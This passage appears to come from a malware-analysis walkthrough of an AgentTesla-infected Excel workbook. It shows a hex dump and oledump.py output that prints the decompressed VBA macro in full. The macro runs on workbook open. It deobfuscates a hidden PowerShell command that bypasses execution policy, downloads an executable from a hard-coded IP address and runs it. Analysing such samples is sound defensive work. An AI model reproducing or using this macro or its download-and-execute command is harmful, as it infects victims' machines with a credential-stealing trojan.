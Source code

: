 ```shell
00000170: 6C 5E 69 63 79 C0 07 62  00 2A 79 70 5E 5E 61 73  l^icy..b.*yp^^as
00000180: 73 20 2A 3B 2A 20 24 01  4D 46 69 0A 6C 41 12 3D  s *;* $.MFi.lA.=
00000190: C0 00 5B 2A 49 2A 80 4F  2A 2E 2A 50 2A 61 C0 0E  ..[*I*.O*.*P*a..
000001A0: 00 68 2A 5D 2A 3A 3A 47  65 1A 74 40 09 2A 83 09  .h*]*::Ge.t@.*..
000001B0: 41 79 28 29 20 40 7C 20  52 65 6E 5E C0 02 2D 00  Ay() @| Ren^..-.
000001C0: 49 74 5E 65 6D 20 2D 4E  04 65 77 42 9A 7B 20 24  It^em -N.ewB.{ $
000001D0: 5F 20 18 2D 72 65 40 62  40 82 27 74 6D 00 70 24  _ .-re@b@.'tm.p$
000001E0: 27 2C 20 27 65 78 80 65  27 20 7D 20 96 50 C1 1D  ', 'ex.e' } .P..
000001F0: 00 54 68 72 75 3B 20 49  6E 00 5E 76 6F 2A 6B 65  .Thru; In.^vo*ke
00000200: 2D 57 00 65 5E 62 52 65  2A 71 75 00 65 73 74 20  -W.e^bRe*qu.est 
00000210: 2D 55 5E 72 00 69 20 22  22 68 74 74 70 00 3A 2F  -U^r.i ""http.:/
00000220: 2F 31 39 33 2E 32 02 30  C3 00 36 37 2F 72 74 2F  /193.2.0..67/rt/
00000230: 00 44 6F 63 2D 33 37 33  37 80 31 32 32 70 64 66  .Doc-3737.122pdf
00000240: 2E 00 16 D0 22 22 20 2D  00 63 2A C1 27 07 34 02  ...."" -.c*.'.4.
00000250: 3B 80 65 2A 61 72 74 2D  50 80 72 6F 63 65 2A 73  ;.e*art-P.roce*s
00000260: 73 88 06 2B 00 B0 46 5E  52 83 2A 28 03 04 2C 20  s..+..F^R.*(.., 
00000270: 68 22 2A 22 00 01 22 C0  7D 97 08 5E 49 86 08 65  h"*"..".}..^I..e
00000280: 74 48 7C 3D 20 C2 B8 65  01 43 77 28 22 57 53 63  tH|= ..e.Cw("WSc
00000290: 72 69 00 70 74 2E 53 68  65 6C 6C EB 8E 0B C2 82  ri.pt.Shell.....
000002A0: 3D C7 03 2E 01 04 C4 18  C0 0A 08 45 6E 64 81 A3  =..........End..
```

The results above are in hex dump format. There might be some familiar words from a trained eye. However, this is still challenging for us, don't you think? So, let's make it more readable and easier to understand.

We will run an additional parameter `--vbadecompress` in addition to the previous command. When we use this parameter, oledump will automatically decompress any compressed VBA macros it finds into a more readable format, making it easier to analyze the contents of the macros.

```shell
bob@BoB~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress

Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = False
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Private Sub Workbook_Open()
Dim Sqtnew As String, sOutput As String
Dim Mggcbnuad As Object, MggcbnuadExec As Object
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
Set Mggcbnuad = CreateObject("WScript.Shell")
Set MggcbnuadExec = Mggcbnuad.Exec(Sqtnew)
```

